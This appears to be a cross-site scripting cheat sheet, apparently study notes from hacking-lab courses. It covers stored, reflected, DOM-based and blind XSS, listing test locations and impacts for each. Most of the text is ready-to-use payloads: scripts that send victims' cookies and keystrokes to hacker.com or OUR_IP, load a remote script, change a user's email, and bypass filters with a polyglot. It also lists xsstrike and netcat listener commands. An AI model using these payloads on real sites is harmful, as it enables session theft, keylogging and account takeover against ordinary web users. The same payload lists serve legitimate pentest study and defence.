 # PoC Payload: <script>alert('XSS');</script>

## Payloads: https://github.com/swisskyrepo/PayloadsAllTheThings

## Detection methods:

### 1) Try injecting HTML code instead of JavaScript

### 2) Make sure everything is escaped so that you can bypass basic defense mechanisms

### Example: <>/\script'"=

### 3) Use alternative to "alert" payload to test for XSS

### Session stealing: <script>fetch('https://hacker.com/steal?cookie=' + btoa(document.cookie));</script>

### Keylogger: <script>document.onkeypress = function(p){ fetch ('https://hacker.com/log?key=' + btoa(p.key) );}</script>

### Change user's email address: <script>user.changeEmail('attacker@hacker.com');</script>

# Stored XSS

## Test locations: 

#### 1: Comments on a blog

#### 2: User profile information

#### 3: Website listings

## IMPACT:

#### Steal victim's session cookie. Impersonate the visiting user.

# Reflected XSS

## Test locations:

#### 1: URL file path

#### 2: Parameters in the URL query string

#### 3: Sometimes, HTTP headers

## IMPACT:

#### Attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session/customer information.

# DOM Based XSS

## Test locations:

#### 1: Look for parts of the code that access certain variables that we can have control over.

#### E.g. "window.location.x" parameter.

#### When we've found those bits of code, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as "eval()"

## IMPACT:

#### Steal content from page/user's session. Crafted links could be sent to victims, redirecting them to another site.

# BLIND XSS 

## Test locations:

#### Ensure payload has a call back (HTTP request) 

# POLYGLOT PAYLOAD

#### jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e (XSS filter bypass)


## Commands

| Code | Description |
| ----- | ----- |
| **XSS Payloads** |
| `<script>alert(window.origin)</script>` | Basic XSS Payload |
| `<plaintext>` | Basic XSS Payload |
| `<script>print()</script>` | Basic XSS Payload |
| `<img src="" onerror=alert(window.origin)>` | HTML-based XSS Payload |
| `<script>document.body.style.background = "#141d2b"</script>` | Change Background Color |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image |
| `<script>document.title = 'HackTheBox Academy'</script>` | Change Website Title |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>` | Overwrite website's main body |
| `<script>document.getElementById('urlform').remove();</script>` | Remove certain HTML element |
| `<script src="http://OUR_IP/script.js"></script>` | Load remote script |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us |
| **Commands** |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"` | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80` | Start `netcat` listener |
| `sudo php -S 0.0.0.0:80 ` | Start `PHP` server |
